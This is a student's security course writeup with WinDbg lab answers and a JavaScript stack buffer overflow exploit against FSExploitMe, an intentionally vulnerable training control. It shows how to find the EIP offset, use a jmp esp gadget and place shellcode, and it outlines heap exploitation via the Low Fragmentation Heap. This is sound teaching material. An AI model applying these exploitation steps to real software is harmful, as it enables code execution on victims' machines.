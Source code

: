 [Back to Index](https://jaegermeiste.github.io/DefenseAgainstTheDarkArts/)

## Week 4 Writeup

Jason George

### Software Vulnerabilities and Common Exploits Lesson 1 - Wk 4

Brad Antoniewicz ([@brad_anton](https://twitter.com/brad_anton)) is currently a Security Research Manager at OpenDNS/Cisco, but was R&D Manager at Intel Foundstone and Adjunct Professor at NYU at the time of the video.

[http://cwe.mitre.org/data/index.html](http://cwe.mitre.org/data/index.html) has various filters and views listing common software vulnerabilities for a programmer to worry about. For example, [http://cwe.mitre.org/data/definitions/14.html](http://cwe.mitre.org/data/definitions/14.html) is an interesting one - compiler optimizations removing code that clears the contents of a buffer (because the buffer is never accessed again afterwards). Thus you need a secure way to zero a buffer wihtout the compiler optimizing it away - either by manually doing something like:

``` C
memset(buffer, 0, sizeof(buffer)); 
buffer[0] = 0;    // Prevent compiler optimizing away memset by (meaninglessly) accessing it afterward
```

or in Win32, using SecureZeroMemory ([https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx)) instead of ZeroMemory.

FSExploitMe Lab 1:
1. lmf m FSExploitMe >> start = 54430000 end = 5443b000
2. !teb >> StackBase = 021f0000 StackLimit=021d7000 ?021f0000 - 021d7000 = 00019000
3. !peb >> ProcessHeap = 00320000
4. r >> eip=54431df0
5. u eip L10 >> 54431df3 sub esp, 14h (0x14 = 20 bytes)
6. t 5; du poi(esp) >> FluffyBunniesDontFlapOrQuack
7. p b 11 >> eip = 54431e27 cmp dword ptr [ebp-4],0Ah (0x0A = 10 decimal). 10 loops
8. pt >> eax = 00007a69; .formats eax >> Decimal: 31337
9. !address esi >> Usage: Stack

Most of the difficulty here is simply in learning WinDbg, but it is obviously very powerful. Now on to exploits!

FSExploitMe Lab 2:

A. Stack Behavior:
1. r >> edi = 54431e80
2. 3 arguments: 54431e89 push 1, 54331e8b push offset FSExploitMe!IID_DFSExploitMeEvents+0x6c (54434ecc), 54431e90 push 26h
3. .formats 26h >> 38 decimal, da 54434ecc >> "HeyHeyHeySon", 0x1 = 1 decimal: function call could be: func(int 38, char* "HeyHeyHeySon", bool true);

B. Crash Triage
1. r >> eip = 41414141, ebp = 41414141 
2. eax = 020f95ec, ebx = 00000008, ecx = 00000000, edx = 00000000, esi = 020f9a00, edi = 54432160, eip = 41414141, esp = 020f99f8, ebp = 41414141. Not ebx, ecx, edx, eip, or ebp. dd edi points to normal looking data. dd eax >> 414141... , dd esi >> 414141..., dd esp >> 414141... so eax, esi, and esp point to attacker controlled data.
3. 544320e0
4. 0x400 = 1024 decimal

C. Lab: Exploit!
1. ```Javascript
function L2Exercise1() {
  var s = msfPatternString;
  FSExploitMe.StackBuffer(s);
}
```
Loading byakugan and setting the pattern_offset 2000 doesn't seem to do anything at first. On the second atttempt, I loaded byakugan before triggering the exploit and the pattern_offset 200 command returned `[Byakugan] Control of eip at offset 1028.`
2. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u4242\u4242"
  FSExploitMe.StackBuffer(s);
}
```
3. lmf m FSExploitMe >> start=54430000 end=5443b000; s 54430000 5443b000 ff e4 >> 54432437
4. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```
5. 54432159 is a ret 4, popping 4 bytes from the stack.
6. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u2437\u5443"  /* jmp esp address */
  s += "\u4141\u4141"
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```

Profit!


### Software Vulnerabilities and Common Exploits Lesson 2 - Wk 4

Random note: While 0x41 is ASCII A, `\u4141` used in the exploit examples is 䅁, the unified Chinese/Japanese/Korean "Ideograph to husk rice; to get the grains by oppressing the ears of the rice plant" ([https://unicode-table.com/en/4141/](https://unicode-table.com/en/4141/)). Sort of apropos.

Enabling the Low Fragmentation Heap is important in order to ensure there is contiguous memory to exploit. The heap is prdicatably organized, so you can load exploit code in high memory, replace a freed object in the LFH with a pointer to your exploit code, and then the code itself will execute the exploit naturally the next time the compromised object is called.
